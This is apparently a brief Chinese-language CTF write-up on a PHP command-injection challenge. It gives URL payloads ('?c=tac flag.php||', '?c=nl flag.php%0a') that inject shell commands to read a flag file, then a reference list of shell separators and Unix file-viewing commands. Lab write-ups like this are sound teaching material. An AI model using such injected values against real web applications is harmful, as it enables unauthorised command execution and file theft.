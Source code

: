 payload：`?c=tac flag.php|| ` `?c=nl flag.php%0a`

> ; //分号
> | //只执行后面那条命令
> || //只执行前面那条命令
> & //两条命令都会执行
> && //两条命令都会执行
>
> 在Unix和类Unix系统中，有多种命令可以用来查看文本文件的内容。以下是一些常用的命令：
>
> 1. `cat`：用于连接文件并打印到标准输出设备上。
>
>    bash
>
>    ```bash
>    cat filename.txt
>    ```
>
> 2. `less`：一个分页程序，允许用户逐步浏览文件内容。
>
>    bash
>
>    ```bash
>    less filename.txt
>    ```
>
> 3. `more`：类似于 `less`，但功能较少，不支持回滚。
>
>    bash
>
>    ```bash
>    more filename.txt
>    ```
>
> 4. `head`：显示文件的开头部分，默认显示前10行。
>
>    bash
>
>    ```bash
>    head filename.txt
>    ```
>
> 5. `tail`：显示文件的末尾部分，默认显示最后10行。常用于查看日志文件。
>
>    bash
>
>    ```bash
>    tail filename.txt
>    ```
>
> 6. `tac`：与 `cat` 相反，用于从最后一行开始反向打印文件内容。
>
>    bash
>
>    ```bash
>    tac filename.txt
>    ```
>
> 7. `nl`：类似于 `cat`，但会在输出的每一行前面加上行号。
>
>    bash
>
>    ```bash
>    nl filename.txt